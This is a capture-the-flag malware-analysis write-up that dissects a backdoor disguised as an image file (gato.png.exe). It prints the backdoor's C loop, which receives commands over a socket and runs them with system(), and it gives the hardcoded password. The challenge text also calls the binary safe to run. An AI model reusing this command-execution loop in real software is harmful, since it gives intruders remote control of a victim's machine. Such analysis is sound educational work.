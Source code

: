 # Beb Tileni 488 - Malware Analysis Writeup

## Challenge Descritption

Someone sent me this silly cat. He says he can access my bank acount now! Good thing those free bitcoins didnt work. PS: I got back the source code but I still didn't understand it. Flag format: Securinets{MalwareType_SocketIP_Port_Password_ExitCommand} **Note: Although this is a malware, it's totally harmless. Your AV may flag it as malicious but it's totally fine to execute it and analyse it.**

---

## Provided Files

[chat_mechant.c](taskFiles/chat_mechant.c)
[gato.png.exe](taskFiles/gato.png.exe)

---

## TL;DR

**Malware Type:** Backdoor

This is a backdoor since it accepts remote commands and extecutes them on the victim's cmd.
```c
while (password) {
    memset(buffer, 0, 256);
    n = recv(newsockfd, buffer, 255, 0);
    if (n == SOCKET_ERROR) {
        printf("ERROR reading from socket\n");
        closesocket(newsockfd);
        break;
    }

    if (strncmp("shutdown", buffer, 8) == 0) {
        send(newsockfd, "Shutting down.\n", 15, 0);
        password = 0;
        closesocket(newsockfd);
        break;
    }

    system(buffer);
    send(newsockfd, "Command executed.\n", 18, 0);
}
```

**Socket IP:** 127.0.0.1
```c
serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
```

**Password:** who_leaves_their_door_open?
```c
char *correct_password = "who_leaves_their_door_open?";
```
